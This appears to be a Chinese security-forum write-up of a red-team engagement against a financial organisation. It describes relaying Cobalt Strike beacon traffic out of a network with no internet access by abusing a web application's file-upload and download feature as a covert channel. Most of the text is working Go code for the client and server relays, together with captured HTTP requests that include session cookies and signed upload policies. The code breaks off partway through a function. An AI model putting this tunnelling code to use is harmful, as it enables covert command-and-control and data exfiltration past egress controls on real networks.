






# 金融红队突破出网实战开发应用-先知社区

> **来源**: https://xz.aliyun.com/news/16155  
> **文章ID**: 16155

---

近期参与某个金融单位项目，经过一通钓鱼后，发现并不出网，同时使用的是出网白名单，进行WBE渗透测试发现存在一些上传功能可以通过编写转发来进行中转来达到上线到C2的目的。在开发的过程中遇到的一些问题分享一下。  
如果其他地方遇到此类情况也可以尝试着写类似的中转方案；  
**条件:**

1. 有上传功能，且上传的文件名是固定或者能检索到
2. 上传后能固定获取对应的链接能进行覆盖或者重置

**实战环境：**  
因为上传文件的配置文件每40-50分钟刷新一次，需要在此期间更换配置文件才能达到维权的效果。  
ps：如果有其他环境不会过期那就不用考虑那么多了。

本次使用的是以服务端为主的，设置定时来交互配置文件；定时启动时服务端其他动作加锁等待解锁后才能发送指令，以免漏掉配置文件。  
如30分钟以后；服务端向client.txt文件中存放配置文件，客户端读取了进行本地保存后重命名。

## 常见的突破出网方式

* **白名单访问**  
  通过向IT部门申请将特定网站或服务加入白名单，确保这些网络资源可以正常访问。这种方式较为正式且合规。
* **虚拟专用网络 (VPN)** **或者代理**  
  有些单位允许使用VPN连接到特定的外部网络（通常是本单位的分支机构或总部网络），这可以帮助在安全受控的环境中实现跨网络访问。有时候为了上互联网通过内部代理中转访问互联网。
* **远程桌面服务 (RDP)**  
  部分单位允许员工通过远程桌面连接到已出网的机器上，借助这台机器访问互联网资源，但这种方法必须通过授权和安全监控，通常有严格的审计。
* **移动设备管理 (MDM)**  
  有些单位允许在手机或平板等移动设备上访问互联网资源，通过MDM管理，保障这些设备的安全性。可以通过移动设备访问必要的外部数据资源。
* **第三方安全代理或内网镜像**  
  在一些公司内部，IT部门会设立代理或内网镜像服务，确保内部网络环境可以通过中间服务器访问到特定的外部资源。这种方法会将外部资源镜像到内部网络，从而可以间接访问。
* **外部系统安全接口 (API)**  
  有时候可以通过API接口访问一些外部资源。虽然出网有严格控制，但部分机构会允许访问安全接口，通常用于金融数据获取或交易执行。
* 等等

## 大致流程

**通信流程**

流程比较简单，通过两个文件进行交互数据一个上传数据，通过另外一个读取返回的数据。

* **客户端**：CS Beacon监听本地端口（如127.0.0.1:17777）。当有数据时，中转程序接收数据并上传至WEB系统，生成文件 `client.txt`。
* **服务端**：读取WEB服务器上的 `client.txt` 文件，并将数据转发至CS服务端的监听端口（x.x.x.x:17777）。
* **服务端处理**：CS服务端接收到数据后，生成指令并发送至监听端口（x.x.x.x:17777）。中转程序接收指令后，将其保存至 `server.txt` 文件。
* **客户端执行**：客户端读取 `server.txt` 中的指令并执行，完成一轮循环。

**同步配置文件流程**

设置定时任务；每到一定到时间，加入文件锁，获取最新的配置文件，然后向服务端中上传配置文件，并且修改配置文件success的值来区分是客户端还是服务端；

客户端如果在线请求判断是否为success:client 或者 server进行下载

## 实战环境

首先需要看下环境中的的文件上传数据包和读取的文件的数据包时什么的怎么样的流程。

### 获取上传的配置信息

上传的数据包：

```
GET /test//getUploadToken?bizCode=1099&fileName=0fe729c2a162c5b8d889e37f97c9d14d.png&attachment=true&contentType= HTTP/1.1
Host: middle.pant0m-pms.pant0m.com
Cookie: prod-nongxin_uid=10013411043; user_type=0201; tenant_code=904080; institution_id=208706485710853; platform_code=pant0m; wsid=10011740756#1730878774008; prod-nongxin_platform_code=pant0m; uid=10013411043; _zcy_log_client_uuid=5b009a20-9b80-11ef-a11f-f92a687e982b; SESSION=ZDg1MGRiOWQtMzhlOC00NzllLWFlMzYtMTBhYjZlN2I1MTRj; session_application_code=zcy.base.res
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://middle.pant0m-pms.pant0m.com/settle-front/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive
```

返回包中的配置，不难发现这个应该是阿里云OSS的配置；

```
{"success":true,"result":{"mode":"zcy","fileId":"1099OT/904080/10011740756/202411/956a5fb3-2d43-4f29-805e-9e2c51a5fb0f.png","uploadData":{"path":"/oss/prod-nongxin-doc","method":"POST","data":{"bucket":"prod-nongxin-doc","x-amz-date":"20241106T080813Z","x-amz-signature":"aba652f23c1bc375e5680b683e6e246b35fe431326e855875243e266e36e1a92","Content-Disposition":"attachment;filename=0fe729c2a162c5b8d889e37f97c9d14d.png","x-amz-algorithm":"AWS4-HMAC-SHA256","key":"1099OT/904080/10011740756/202411/956a5fb3-2d43-4f29-805e-9e2c51a5fb0f.png","x-amz-credential":"DfAB8A7Y5VY3Jbax/20241106/us-east-1/s3/aws4_request","policy":"ewogICJleHBpcmF0aW9uIjogIjIwMjQtMTEtMDZUMDg6NTg6MTMuMjY2WiIsCiAgImNvbmRpdGlvbnMiOiBbCiAgICBbImVxIiwgIiRidWNrZXQiLCAicHJvZC1ub25neGluLWRvYyJdLAogICAgWyJlcSIsICIka2V5IiwgIjEwOTlPVC85MDQwODAvMTAwMTE3NDA3NTYvMjAyNDExLzk1NmE1ZmIzLTJkNDMtNGYyOS04MDVlLTllMmM1MWE1ZmIwZi5wbmciXSwKICAgIFsic3RhcnRzLXdpdGgiLCAiJENvbnRlbnQtVHlwZSIsICJpbWFnZS9wbmciXSwKICAgIFsic3RhcnRzLXdpdGgiLCAiJENvbnRlbnQtRGlzcG9zaXRpb24iLCAiYXR0YWNobWVudDtmaWxlbmFtZT0wZmU3MjljMmExNjJjNWI4ZDg4OWUzN2Y5N2M5ZDE0ZC5wbmciXSwKICAgIFsiY29udGVudC1sZW5ndGgtcmFuZ2UiLCAxLCAyMDk3MTUyMDAwXSwKICAgIFsiZXEiLCAiJHgtYW16LWFsZ29yaXRobSIsICJBV1M0LUhNQUMtU0hBMjU2Il0sCiAgICBbImVxIiwgIiR4LWFtei1jcmVkZW50aWFsIiwgIkRmQUI4QTdZNVZZM0piYXgvMjAyNDExMDYvdXMtZWFzdC0xL3MzL2F3czRfcmVxdWVzdCJdLAogICAgWyJlcSIsICIkeC1hbXotZGF0ZSIsICIyMDI0MTEwNlQwODA4MTNaIl0gIF0KfQ==","Content-Type":"image/png"},"withCredentials":true,"name":"file","action":"https://oss.pant0m-pms.pant0m.com/prod-nongxin-doc"}},"error":null}
```

### 上传数据包

```
POST /prod-nongxin-doc HTTP/1.1
Host: oss.pant0m-pms.pant0m.com
Cookie: prod-nongxin_uid=10013411043; user_type=0201; tenant_code=904080; institution_id=208706485710853; platform_code=pant0m; wsid=10011740756#1730878774008; prod-nongxin_platform_code=pant0m; uid=10013411043; _zcy_log_client_uuid=5b009a20-9b80-11ef-a11f-f92a687e982b; SESSION=ZDg1MGRiOWQtMzhlOC00NzllLWFlMzYtMTBhYjZlN2I1MTRj; session_application_code=zcy.base.res
Content-Length: 49778
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypRsz7ZIhOwkXYApF
Accept: */*
Origin: https://middle.pant0m-pms.pant0m.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://middle.pant0m-pms.pant0m.com/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="bucket"

test-test
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="x-amz-date"

20241106T080813Z
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="x-amz-signature"

aba652f23c1bc375e5680b683e6e246b35fe431326e855875243e266e36e1a92
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="Content-Disposition"

attachment;filename=0fe729c2a162c5b8d889e37f97c9d14d.png
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="x-amz-algorithm"

AWS4-HMAC-SHA256
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="key"

1099OT/904080/10011740756/202411/956a5fb3-2d43-4f29-805e-9e2c51a5fb0f.png
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="x-amz-credential"

DfAB8A7Y5VY3Jbax/20241106/us-east-1/s3/aws4_request
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="policy"

ewogICJleHBpcmF0aW9uIjogIjIwMjQtMTEtMDZUMDg6NTg6MTMuMjY2WiIsCiAgImNvbmRpdGlvbnMiOiBbCiAgICBbImVxIiwgIiRidWNrZXQiLCAicHJvZC1ub25neGluLWRvYyJdLAogICAgWyJlcSIsICIka2V5IiwgIjEwOTlPVC85MDQwODAvMTAwMTE3NDA3NTYvMjAyNDExLzk1NmE1ZmIzLTJkNDMtNGYyOS04MDVlLTllMmM1MWE1ZmIwZi5wbmciXSwKICAgIFsic3RhcnRzLXdpdGgiLCAiJENvbnRlbnQtVHlwZSIsICJpbWFnZS9wbmciXSwKICAgIFsic3RhcnRzLXdpdGgiLCAiJENvbnRlbnQtRGlzcG9zaXRpb24iLCAiYXR0YWNobWVudDtmaWxlbmFtZT0wZmU3MjljMmExNjJjNWI4ZDg4OWUzN2Y5N2M5ZDE0ZC5wbmciXSwKICAgIFsiY29udGVudC1sZW5ndGgtcmFuZ2UiLCAxLCAyMDk3MTUyMDAwXSwKICAgIFsiZXEiLCAiJHgtYW16LWFsZ29yaXRobSIsICJBV1M0LUhNQUMtU0hBMjU2Il0sCiAgICBbImVxIiwgIiR4LWFtei1jcmVkZW50aWFsIiwgIkRmQUI4QTdZNVZZM0piYXgvMjAyNDExMDYvdXMtZWFzdC0xL3MzL2F3czRfcmVxdWVzdCJdLAogICAgWyJlcSIsICIkeC1hbXotZGF0ZSIsICIyMDI0MTEwNlQwODA4MTNaIl0gIF0KfQ==
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="Content-Type"

image/png
------WebKitFormBoundarypRsz7ZIhOwkXYApF
Content-Disposition: form-data; name="file"; filename="0fe729c2a162c5b8d889e37f97c9d14d.png"
Content-Type: image/png

‰PNG

xxx
```

返回包，找到对应的URL，在配置文件中可以使用action+fileId 拼凑起来。

```
http://oss.pant0m-pms.pant0m.com/prod-nongxin-doc/1099OT/904080/10011740756/202411/956a5fb3-2d43-4f29-805e-9e2c51a5fb0f.png
```

#### 使用go语言编写 文件格式、上传、读取代码相关

```
package main

import (
    "bytes"
    "encoding/json"
    "flag"
    "fmt"
    "io"
    "io/ioutil"
    "log"
    "mime/multipart"
    "net/http"
    "os"
)

// 定义接收JSON数据的结构体
type UploadData struct {
    Path      string            `json:"path"`
    Method    string            `json:"method"`
    Data      map[string]string `json:"data"`
    Name      string            `json:"name"`
    FileId    string            `json:"FileId"`
    ActionURL string            `json:"action"`
}

type UploadTokenResponse struct {
    Success bool `json:"success"`
    Result  struct {
        Mode       string     `json:"mode"`
        FileId     string     `json:"fileId"`
        UploadData UploadData `json:"uploadData"`
    } `json:"result"`
    Error interface{} `json:"error"`
}

// 发送请求，获取上传Token
func getUploadToken(session string) (UploadData, error) {
    client := &http.Client{}

    // 构建GET请求
    req, err := http.NewRequest("GET", "https://www.pant0m-pms.pant0m.com/zcy/obs/token/getUploadToken?bizCode=1024&fileName=222.rar&attachment=true&contentType=", nil)
    if err != nil {
        return UploadData{}, err
    }

    // 添加请求头，动态替换SESSION
    cookieHeader := fmt.Sprintf("platform_code=pant0m; SESSION=%s; wsid=10011740756#1729257980959; prod-nongxin_platform_code=pant0m; uid=10013411043; prod-nongxin_uid=10013411043; user_type=0201; tenant_code=904080; institution_id=208706485710853", session)

    req.Header.Add("Host", "www.pant0m-pms.pant0m.com")
    req.Header.Add("Cookie", cookieHeader)
    req.Header.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36")

    // 发送请求
    resp, err := client.Do(req)
    if err != nil {
        return UploadData{}, err
    }
    defer resp.Body.Close()

    // 读取响应体
    body, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        return UploadData{}, err
    }

    // 解析JSON数据
    var tokenResponse UploadTokenResponse
    err = json.Unmarshal(body, &tokenResponse)
    if err != nil {
        return UploadData{}, err
    }

    // 返回上传所需数据
    return tokenResponse.Result.UploadData, nil
}

// 使用解析出的数据构建multipart/form-data请求并上传文件
func uploadFile(uploadData UploadData, filePath string) (string, error) {
    // 创建multipart表单
    body := &bytes.Buffer{}
    writer := multipart.NewWriter(body)

    // 填充表单字段
    for key, value := range uploadData.Data {
        writer.WriteField(key, value)
    }

    // 打开要上传的文件
    file, err := os.Open(filePath) // 上传的文件路径
    if err != nil {
        return "", err
    }
    defer file.Close()

    // 创建文件字段
    part, err := writer.CreateFormFile(uploadData.Name, filePath)
    if err != nil {
        return "", err
    }
    _, err = io.Copy(part, file)
    if err != nil {
        return "", err
    }

    // 关闭multipart writer
    writer.Close()

    // 构建HTTP请求
    req, err := http.NewRequest("POST", uploadData.ActionURL, body)
    if err != nil {
        return "", err
    }
    req.Header.Set("Content-Type", writer.FormDataContentType())

    // 发送请求
    client := &http.Client{}
    resp, err := client.Do(req)
    if err != nil {
        return "", err
    }
    defer resp.Body.Close()

    // 读取响应并提取location
    location := resp.Header.Get("Location")
    if location != "" {
        fmt.Println("File Location URL:", location)
    } else {
        fmt.Println("No location URL found in response headers.")
    }

    // 返回文件上传的URL
    return location, nil
}

// 记录日志
func logToFile(message string) {
    // 打开日志文件，追加内容
    logFile, err := os.OpenFile("upload_log.txt", os.O_APPEND|os.O_CREATE|os.O_WRONLY, 0644)
    if err != nil {
        log.Fatalf("Failed to open log file: %v", err)
    }
    defer logFile.Close()

    // 创建日志记录器
    logger := log.New(logFile, "", log.LstdFlags)

    // 记录日志
    logger.Println(message)
}

func main() {

    // 第一步：发送GET请求获取上传Token
    uploadData, err := getUploadToken(session)
    if err != nil {
        fmt.Println("Error fetching upload token:", err)
        return
    }

    // 第二步：上传文件并提取返回的URL
    fileURL, err := uploadFile(uploadData, filePath)
    if err != nil {
        fmt.Println("Error uploading file:", err)
        return
    }

    // 如果文件上传成功，打印并记录日志
    if fileURL != "" {
        logMessage := fmt.Sprintf("File: %s uploaded successfully. URL: %s", filePath, fileURL)
        fmt.Println(logMessage)
        logToFile(logMessage)
    } else {
        logMessage := fmt.Sprintf("File: %s uploaded but no URL was returned.", filePath)
        fmt.Println(logMessage)
        logToFile(logMessage)
    }
}
```

### 客户端监听

客户端监听CS发送的端口数据，接收到数据后上传到WEB网站上，服务端读取client，客户端读取server进行交互;  
这里主要是通过本地保存两个配置文件进行交互，一个服务端，配置和客户端配置；

```
func startClient(bind_address string) {
    log.Println("[+]", "客户端启动成功")

    server, err := net.Listen("tcp", bind_address)
    if err != nil {
        log.Fatalln("[x]", "listen address ["+bind_address+"] failed.")
    }
    for {
        conn, err := server.Accept()
        if err != nil {
            log.Println("Accept() failed, err: ", err)
            continue
        }
        log.Println("[+]", "有客户进入：", conn.RemoteAddr())
        go process(conn)
    }
}


func process(conn net.Conn) {
    defer func() {
        if r := recover(); r != nil {
            log.Printf("捕获异常：%v", r)
        }
    }()

    uuid := uuid.New()
    key := uuid.String()
    defer conn.Close()
    var buffer bytes.Buffer
    _ = conn.SetReadDeadline(time.Now().Add(10 * time.Second))
    for {
        var buf [1]byte
        n, err := conn.Read(buf[:])
        if err != nil {
            log.Println("[-]", uuid, "read from connect failed, err：", err)
            break
        }
        buffer.Write(buf[:n])
        if strings.Contains(buffer.String(), "\r\n\r\n") {
            if strings.Contains(buffer.String(), "Content-Length") {
                ContentLength := buffer.String()[strings.Index(buffer.String(), "Content-Length: ")+len("Content-Length: ") : strings.Index(buffer.String(), "Content-Length: ")+strings.Index(buffer.String()[strings.Index(buffer.String(), "Content-Length: "):], "\n")]
                log.Println("[+]", uuid, "数据包长度为：", strings.TrimSpace(ContentLength))
                if strings.TrimSpace(ContentLength) != "0" {
                    intContentLength, err := strconv.Atoi(strings.TrimSpace(ContentLength))
                    if err != nil {
                        log.Println("[-]", uuid, "Content-Length转换失败")
                    }
                    for i := 1; i <= intContentLength; i++ {
                        var b [1]byte
                        n, err = conn.Read(b[:])
                        if err != nil {
                            log.Println("[-]", uuid, "read from connect failed, err", err)
                            break
                        }
                        buffer.Write(b[:n])
                    }
                }
            }
            if strings.Contains(buffer.String(), "Transfer-Encoding: chunked") {
                for {
                    var b [1]byte
                    n, err = conn.Read(b[:])
                    if err != nil {
                        log.Println("[-]", uuid, "read from connect failed, err", err)
                        break
                    }
                    buffer.Write(b[:n])
                    if strings.Contains(buffer.String(), "0\r\n\r\n") {
                        break
                    }
                }
            }
            log.Println("[+]", uuid, "从客户端接受HTTP头完毕")
            break
        }
    }
    b64 := base64.StdEncoding.EncodeToString(buffer.Bytes())
    Send("Send-Client.json", key+"client.zip", b64)

    i := 1

    for {
        i++
        time.Sleep(1 * time.Second)
        if i >= 10 {
            log.Println("[x]", "超时，断开")
            return
        }

        clientURL, err := Getfile("Send-Server.json")
        if err != nil {
            log.Println("[-]", "获取服务器文件失败：", err)
            return
        }

        currentContent, err := fetchFileContent(clientURL)
        if err != nil {
            log.Println("[-]", "获取客户端文件失败:", err)
            return
        }
//每次需要判断大小是不是一致的
        if strings.TrimSpace(currentContent) != strings.TrimSpace(previousContent) {


            previousContent = currentContent
            buff := Get("Send-Server.json")
            if buff != nil {
                log.Println("[x]", uuid, "收到服务器消息")
                time.Sleep(1 * time.Second)
                sDec, err := base64.StdEncoding.DecodeString(string(buff))
                if err != nil {
                    log.Println("[x]", uuid, "Base64解码错误")
                    return
                }
                conn.Write(sDec)
                break
            }
        } else {
            log.Println("[+]", "文件内容一致，无需处理")
            return
        }
    }
    log.Println("[+]", "发送完成")
}
```

因为交互只有一个文件所以这里需要判断当前文件和之前文件是否一致

### 服务端监听

```
func startServer(server_address string) {

    log.Println("[+]", "服务端启动成功")

    for {

        time.Sleep(6 * time.Second)


        // 获取 Send-Client.json 中的 URL

        clientURL := Getfile("Send-Client.json")

        currentContent, err := fetchFileContent(clientURL)

        if err != nil {

            log.Println("[-]", "获取客户端文件失败:", err)

            return

        }

        println("大小为%s", len(currentContent))


        checkFileChanges(currentContent, server_address)


    }

}


func checkFileChanges(currentContent string, server_address string) {

    // 加锁，防止与定时任务冲突

    log.Println("[+]", "尝试加锁以检测文件变化")

    fileLock.Lock()

    log.Println("[+]", "文件锁定成功，开始检查文件变化")

    defer func() {

        log.Println("[+]", "解锁文件")

        fileLock.Unlock()

    }()


    if strings.TrimSpace(currentContent) != strings.TrimSpace(previousContent) {

        log.Println("[+]", "文件内容不一致，开始处理")

        previousContent = currentContent      // 更新存储的文件内容

        processServerWithLock(currentContent) // 处理客户端文件数据

    } else {

        log.Println("[+]", "文件内容一致，无需处理")

    }

}
```



```
func processServerWithLock(URLname string) {
    log.Println("[+]", "发现客户端")

    sDec, err := base64.StdEncoding.DecodeString(string(URLname))
    if err != nil {
        log.Println("[-]", sDec, "Base64解码失败:", err)
        return
    }

    conn, err := net.Dial("tcp", "xxxx:17777")
    if err != nil {
        log.Println("[-]", conn, "连接CS服务器失败:", err)
        return
    }
    defer conn.Close()

    _, err = conn.Write(sDec)
    if err != nil {
        log.Println("[-]", "无法向CS服务器发送数据包:", err)
        return
    }

    _ = conn.SetReadDeadline(time.Now().Add(10 * time.Second))
    var buffer bytes.Buffer

    for {
        var buf [1]byte
        n, err := conn.Read(buf[:])
        if err != nil {
            log.Println("[-]", "从CS服务器读取数据失败:", err)
            break
        }
        buffer.Write(buf[:n])

        if strings.Contains(buffer.String(), "\r\n\r\n") {
            if strings.Contains(buffer.String(), "Content-Length") {
                ContentLength := buffer.String()[strings.Index(buffer.String(), "Content-Length: ")+len("Content-Length: ") : strings.Index(buffer.String(), "Content-Length:")+strings.Index(buffer.String()[strings.Index(buffer.String(), "Content-Length:"):], "\n")]
                log.Println("[+]", "数据包长度为：", strings.TrimSpace(ContentLength))

                if strings.TrimSpace(ContentLength) != "0" {
                    intContentLength, err := strconv.Atoi(strings.TrimSpace(ContentLength))
                    if err != nil {
                        log.Println("[-]", "Content-Length转换失败:", err)
                        break
                    }

                    for i := 1; i <= intContentLength; i++ {
                        var b [1]byte
                        n, err = conn.Read(b[:])
                        if err != nil {
                            log.Println("[-]", "从CS服务器读取数据失败:", err)
                            break
                        }
                        buffer.Write(b[:n])
                    }
                }
            }

            if strings.Contains(buffer.String(), "Transfer-Encoding: chunked") {
                for {
                    var b [1]byte
                    n, err = conn.Read(b[:])
                    if err != nil {
                        log.Println("[-]", "读取Chunked数据失败:", err)
                        break
                    }
                    buffer.Write(b[:n])
